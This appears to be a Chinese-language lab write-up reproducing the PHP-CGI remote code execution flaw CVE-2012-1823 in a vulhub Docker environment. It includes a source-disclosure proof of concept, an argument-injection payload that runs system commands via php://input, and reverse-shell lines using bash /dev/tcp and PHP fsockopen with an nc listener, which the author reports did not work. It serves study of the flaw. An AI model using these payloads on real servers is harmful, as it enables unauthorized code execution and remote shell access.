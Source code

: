 ```yaml
---
title: 漏洞复现-PHP-CGI远程代码执行 CVE-2012-1823
description: 漏洞复现
author: #有默认值
date: 2024-08-28 10:13:14 +0800
categories:  [漏洞复现]
tags:  [漏洞复现,RCE]     # TAG names should always be lowercase
pin:  # 默认false，可填true
math: true
mermaid: true
# image:
#   path: /assets/bar/home.png
#   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
#   alt:  # 图片名
---
```


## 构建

``` shell
cd ./vulhub/php/CVE-2012-1823
docker-compose up -d 
```

## 漏洞原理
https://blog.csdn.net/jiyongx/article/details/105220880

## PoC（Proof of Concept） 验证漏洞存在的代码
```shell
http://<ip>:<port>/index.php/?-s #将返回源码
```

## Exp（Exploit）进行实际的攻击利用
使用-d来指定auto_prepend_file制造任意文件包含漏洞，使用burpsuite抓包，然后修改数据包内容。使用“+”代替空格%3d代替“=”​​​​​​​

payload 漏洞利用载荷：

```url
-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
<?php echo system("ls"); ?>
```

执行截图：

![image-20240828155056972](../assets/img//2024-08-28/iShot_2024-08-28_15.57.50.png)

成功执行代码ls



### 尝试建立反弹shell（失败）：

shellcode 

**被控机上用nc建立client进行连接**执行payload <?php echo shell_exec("bash -i >& /dev/tcp/<接收ip>/9999 0>&1");
**接收反弹Shell机器**执行：**`nc -lvp 9999`**

失败，暂不知道为什么，后面再说吧

```shell
<?php system('php -r \'$sock=fsockopen("127.0.0.1",9999);exec("/bin/bash -i <&3 >&3 2>&3");\''); ?>
```



## 复现总结

### 为什么payload 要 “+”代替空格%3d代替“=” ？

确保 URL 在传输过程中不被误解或破坏，进行转义。通常，空格会被编码为 `%20`，但在查询字符串中，空格也可以用 `+` 来表示。“=”替换为“%3d”
但on+-d ‘+’ 作为与后一个-d的参数分隔符，不能换成 %20